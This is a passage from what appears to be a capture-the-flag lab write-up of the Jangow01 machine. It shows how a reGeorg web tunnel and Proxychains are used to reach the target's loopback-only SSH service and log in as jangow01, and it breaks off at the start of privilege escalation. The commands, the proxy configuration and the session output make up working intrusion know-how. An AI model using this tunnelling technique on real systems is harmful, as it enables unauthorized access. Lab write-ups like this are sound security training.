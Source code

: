 ```plain
[INFO   ]  Log Level set to [DEBUG]
[INFO   ]  Starting socks server [127.0.0.1:11080], tunnel at [http://192.168.56.118/site/tunnel.php]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

Third step, you must use [Proxychains-NG](https://github.com/rofl0r/proxychains-ng) with the following line in *proxychains.conf* :  

```plain
socks5 127.0.0.1 11080
```

Finally use SSH with Proxychains to connect to the SSH server (that is listening on the loopback interface on our target) :  

```plain
$ ./proxychains4 -f proxychains.conf ssh jangow01@127.0.0.1
[proxychains] config file found: proxychains.conf
[proxychains] preloading ./libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.15-git-1-g7de7dd0
[proxychains] Strict chain  ...  127.0.0.1:11080  ...  127.0.0.1:22  ...  OK
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:f1otJDbg1iG5fzuvFa+s2ugcUMeDNgzcASJbEKMAp9Y.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '127.0.0.1' (ED25519) to the list of known hosts.
jangow01@127.0.0.1's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

262 pacotes podem ser atualizados.
175 atualizações são atualizações de segurança.

Last login: Sun Oct 31 19:39:50 2021 from 192.168.174.128
jangow01@jangow01:~$ id
uid=1000(jangow01) gid=1000(desafio02) grupos=1000(desafio02)
```

What a great day to be alive :D  

I saw that a fork of *reGeorg* exists and seems to work with Python3 but I didn't test it : [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg/).  

Now it is time for...  

Privilege escalation
--------------------

I discovered a binary called */script/backup* but :  

* setuid bit isn't set
* it has no capabilities
* there are no sudo rules associated with *jangow01*

